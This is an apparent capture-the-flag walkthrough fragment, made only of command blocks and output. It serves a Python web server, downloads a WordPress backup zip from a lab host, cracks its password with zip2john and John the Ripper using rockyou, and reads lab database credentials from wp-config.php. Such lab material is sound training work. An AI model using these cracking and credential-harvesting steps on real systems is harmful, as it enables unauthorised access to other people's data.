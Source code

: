 ```
su gege
```

```
python3 -m http.server 8080
```

```
wget http://10.10.174.83:8080/wordpress.old.zip
```

```
zip2john wordpress.old.zip > wzip_hash
```

```
john wzip_hash --wordlist=/usr/share/wordlists/rockyou.txt
```
```
john wzip_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hero_gege@hotmail.com (wordpress.old.zip)     
1g 0:00:00:00 DONE (2025-01-25 15:59) 1.587g/s 12102Kp/s 12102Kc/s 12102KC/s hesse..heres2life
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

```
hero_gege@hotmail.com
```

```
unzip wordpress.old.zip
```

```
cd wordpress.old
```

```
cat wp-config.php
```
```
/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );

```

```
xavi
```
```
P@ssw0rdxavi@
```
